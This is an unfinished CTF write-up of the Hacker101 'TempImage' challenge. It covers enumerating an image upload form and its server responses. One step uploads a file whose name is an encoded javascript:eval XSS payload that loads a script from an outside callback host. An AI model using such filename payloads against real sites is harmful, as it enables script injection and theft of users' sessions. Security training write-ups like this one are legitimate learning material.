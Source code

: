 ```yaml
---
title: Hacker101 CTF TempImage [moderate] Write-Up
subtitle: a work in progress
description: A write up for the TempImage [moderate] challenge
published: false
datePublished: 1611357758022
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile
tags:
  - ctf
  - writeup
  - hackerone
  - TempImage
  - security
thumbnailPhoto: /hackerone/tempimage/tempimage-hackerone-thumb.jpg
bannerPhoto: /hackerone/tempimage/tempimage-hackerone.jpg
canonicalUrl:
---
```


# TempImage _[moderate]_ `WIP`

This is my Write Up for the "TempImage" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to some sort of cloud storage application, on the main Page we get a really simple page:

```jsx
<!-- https://ctf.hacker101.com/ctf/launch/12 -->

<html>
  <head>
    <title>TempImage &mdash; Trial</title>
  </head>
  <body>
    <h1>TempImage</h1>
    <p>
      <b>UNREGISTERED</b>
    </p>
    <p>
      <a href="upload.php">Upload image</a>
    </p>
  </body>
</html>
```

It signifies that its an UNEGISTERED version of the app, thus working in trial mode.

## Enumeration

So lets start to explore the app and what it can do. We start by clicking the "Upload image" Button.
This leads us to a new page **/upload.php**, here we can select a file from our computer, and have a submit button to send the form.

The form will be sent to a **doUpload.php** file. Upon closer inspection we alos see that there is a hidden field "filename", which gets filled in by aJS snippet.

```jsx
   <h1>Upload</h1>
		<form action="doUpload.php" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" id="file">
			<input type="hidden" name="filename" id="filename">
			<input type="submit" value="Upload">
		</form>
		<script>
			$(document).ready(function() {
				$('#file').change(function(e) {
					$('#filename').val(e.target.files[0].name)
				})
			})
	 </script>
```

So it seems this lil script extracts the `file.name` prop from the fileOpbject the user uploads to the input type="file".

Lets Try it out, It seems the file inpput allows any file to be chosen, lets try a 5mb .gif file.

```jsx
<center><h1>413 Request Entity Too Large</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
```

OK, fair, maybe 5mb was a it large, but we know we're working with an nginx 1.14 server on Ubuntu.
So how about we try a smaller gif?

```shell
ERROR: Only PNG format supported in trial.
```

Okay, finally we know what the app expects from us, a PNG file. So we try jsut that.
The upload succeeds, thus redirecting us to a new url:
`/files/be9c26aaea9d9b5085c7f6eed0812745_uhhhh.png`

so it seems our files are uploaded to the `/files/` directory, what a suprise, the file stil contains our original filename, preceeded by some gibberish.

we should deffinetly try to exploit this, check wheter or not they sanitize our filename.

Lets try uploading a file named: `javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

We now get redirected to this url `http://35.190.155.168/d29c8e00db/files/9975e7e24fac21e8b877a6d08efe09c6_javascript%3Aeval%28%27var%20a%3Ddocument.createElement%28%5C%27script%5C%27%29%3Ba.src%3D%5C%27https%3A%2F%2FDiscover.xss.ht%5C%27%3Bdocument.body.appendChild%28a%29%27%29.png`

and we get served this content:

```javascript
Not Found
The requested URL /files/9975e7e24fac21e8b877a6d08efe09c6_javascript:eval('var a=document.createElement(\'script\');a.src=\'https:/Discover.xss.ht\';document.body.appendChild(a)').png was not found on this server.

Apache/2.4.7 (Ubuntu) Server at 127.0.0.1 Port 52736
```

so it seems there is potential there, we just need a more sophisticated payload to upload.

## Taking a step back

It's important not to get tunnelvision and only focus on your first finding, so lets take a step back and analyze the website using Burp Suite. Maybe we'll find something.
Lets analyze the upload URL first:

```shell
GET /d29c8e00db/upload.php HTTP/1.1
Host: 35.190.155.168
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

This does not tell us that much, it seems the server could accep more than just PNG tho.

How about if we upload an image?

`POST /d29c8e00db/doUpload.php HTTP/1.1`

![image upload Request](/hackerone/tempimage/tempimage-hackerone101-burpSuite_fileupload.png "image upload Request")

> This Post is marked as `WIP` and will be updated continously.
